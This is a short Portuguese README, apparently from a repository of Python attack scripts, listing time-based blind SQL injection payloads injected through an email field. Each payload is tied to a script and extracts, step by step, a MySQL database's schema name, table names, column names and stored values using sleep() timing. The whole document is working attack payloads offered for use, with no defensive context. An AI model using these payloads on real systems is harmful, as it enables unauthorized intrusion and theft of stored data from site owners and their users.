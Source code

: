 # SQLi

# Time Based

## Payloads
## schema_name.py
- Obter tamanho do schema atual:
`hacker@mail.com' or if(length(database())={tamanho}, sleep(2), 0) #`
- Obter nome do schema atual:
`hacker@mail.com' or if(ascii(substring(database(),{i},1))={ord(c)}, sleep(5), 0) #`

## schema_tables.py
- Obter tabelas de um schema:
`hacker@mail.com' or if(ascii(substring((select table_name from information_schema.tables where table_schema = "{schema}" limit 1 offset {linha}),{i},1))={ord(c)}, sleep(5), 0) #`

## table_columns.py
- Obter colunas da tabela:
`hacker@mail.com' or if(ascii(substring((select column_name from information_schema.columns where table_name = '{tabela}' limit 1 offset {linha}),{i},1))={ord(c)}, sleep(5), 0) #`

## columns_dump.py
- Obter todos valores de uma coluna:
`hacker@mail.com' or if(ascii(substring((select {coluna} from {tabela} limit 1 offset {linha}),{i},1))={ord(c)}, sleep(5), 0) #`

## table_dump.py
- Obter todos valores de uma tabela:
`hacker@mail.com' or if(ascii(substring((select {coluna} from {tabela} limit 1 offset {linha}),{i},1))={ord(c)}, sleep(5), 0) #`

## SQLi_single_value.py
- Obter o primeiro valor de um campo específico da tabela:
`hacker@mail.com' or if(ascii(substring((select {coluna} from {tabela} limit 1),{i},1))={ord(c)}, sleep(5), 0) #`
- Obter uma linha específica de uma tabela:
`hacker@mail.com' or if(ascii(substring((select {coluna} from {tabela} limit 1 offset {linha}),{i},1))={ord(c)}, sleep(5), 0) #`

